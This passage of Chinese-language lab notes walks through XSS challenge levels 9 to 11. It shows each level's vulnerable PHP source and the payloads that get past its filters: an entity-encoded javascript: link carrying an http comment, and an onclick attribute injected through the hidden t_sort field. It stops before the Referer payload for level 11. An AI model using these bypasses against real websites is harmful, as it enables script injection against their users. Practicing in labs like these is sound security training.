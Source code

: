 查找 "php" 在字符串中第一次出现的位置：
返回值： 	
返回字符串在另一字符串中第一次出现的位置，如果没有找到字符串则返回 FALSE。
注释：字符串位置从 0 开始，不是从 1 开始。
```
&#60?php
echo strpos("You love php, I love php too!","php");
?>
```
- 就是说你在表单填的信息，必须是http的链接，不是的话就认为是有恶意代码，报错
- 我们可以加http注释，不发挥作用
- payload

```
javascri'&'#'x0070;t:alert(1)/*http://www.baidu.com*/
```

# level-10
- 源码

```
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "&#60h2>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'
&#60form id=search>
&#60input name="t_link"  value="'.'" type="hidden">
&#60input name="t_history"  value="'.'" type="hidden">
&#60input name="t_sort"  value="'.$str33.'" type="hidden">
&#60/form>
```
- keyword参数没什么作用，看到3个input标签，属性都是hidden，很懵。但是目标很明确，让任意一个hidden，变成text，就可以成功。但是参数只有从t_sort中获取，因此
- payload

```
&t_sort="onclick="alert()"type="text"
```
- &逻辑语句，

```
链接两个语句，与and同义
```

# level-11
- 源码

```
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "&#60h2>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'
&#60form id=search>
&#60input name="t_link"  value="'.'" type="hidden">
&#60input name="t_history"  value="'.'" type="hidden">
&#60input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
&#60input name="t_ref"  value="'.$str33.'" type="hidden">

```
- 分析源码可以看到$str11=$_SERVER['HTTP_REFERER'];，他接收了上一题的referer。
- 用level-10完成之前，抓包，然后将referer改成如下payload即可完成
- payload
